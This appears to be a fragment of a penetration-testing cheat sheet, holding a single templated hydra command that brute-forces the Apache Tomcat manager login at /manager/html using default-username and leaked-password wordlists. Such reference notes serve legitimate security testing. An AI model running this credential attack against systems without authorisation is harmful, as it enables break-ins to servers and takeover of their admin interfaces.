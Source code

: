 - Tomcat brute-forcing

`hydra -L {{/seclists/Usernames/cirt-default-usernames.txt}} -P {{ /seclists/passwords_darkweb2017.txt }} -s {{ 8080 }}  -f {{ $IP }} http-get '/manager/html'`
